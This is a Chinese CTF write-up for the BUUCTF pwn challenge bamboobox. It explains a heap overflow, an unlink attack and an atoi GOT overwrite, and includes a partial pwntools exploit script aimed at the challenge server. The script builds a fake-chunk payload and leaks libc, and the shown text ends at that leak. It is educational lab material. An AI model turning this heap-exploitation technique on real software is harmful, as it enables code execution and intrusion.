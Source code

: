 ```yaml
---
title: buuctf-pwn write-ups (10)
date: 2023-02-28 22:13:00
categories:
- write-ups
- buuctf 系列
---
```

@[toc]
# buu073-hitcontraining_bamboobox
数据结构：
![](1.png)
共可申请100个结构，其中change_item函数有任意长度堆溢出漏洞。
![](https://img-blog.csdnimg.cn/72907531dc174ac0a71c3acee836b772.png)
本题程序加载地址固定，itemlist地址固定，因此考虑使用unlink方法解题。
![](https://img-blog.csdnimg.cn/d858dce877a145c588d755fa3719a302.png)
unlink之后可以直接通过第一个chunk读取到stdin的地址，从而获取libc加载基址。
需要注意的是这里修改的是atoi函数的got表地址，如果修改free函数的got表地址，由于输入时程序会将输入的后面一个字节清零，会导致free函数got表后面的一个地址（puts）发生错误，使得menu函数调用puts函数失败。而atoi后面是exit函数地址，无关紧要。

```python
from pwn import *
from LibcSearcher import *
context(arch='amd64', log_level='debug')
# io = process('./pwn')
io = remote('node4.buuoj.cn', 29731)
elf = ELF('./pwn')

def add(length, content):
    io.sendlineafter(b'Your choice:', b'2')
    io.sendlineafter(b'Please enter the length of item name:', str(length).encode())
    io.sendafter(b'Please enter the name of item:', content)

def show():
    io.sendlineafter(b'Your choice:', b'1')

def change(index, length, content):
    io.sendlineafter(b'Your choice:', b'3')
    io.sendlineafter(b'Please enter the index of item:', str(index).encode())
    io.sendlineafter(b'Please enter the length of item name:', str(length).encode())
    io.sendafter(b'Please enter the new name of the item:', content)

def delete(index):
    io.sendlineafter(b'Your choice:', b'4')
    io.sendlineafter(b'Please enter the index of item:', str(index).encode())

add(0x88, b'colin')     # chunk #0
add(0x88, b'colin')     # chunk #1
add(0x20, b'/bin/sh')   # chunk #2
payload = p64(0x10)
payload += p64(0x81)
payload += p64(0x6020C8 - 0x18)
payload += p64(0x6020C8 - 0x10)
payload += cyclic(0x60)
payload += p64(0x80)
payload += p64(0x90)
change(0, 0x90, payload)
delete(1)
show()
io.recv(4)
```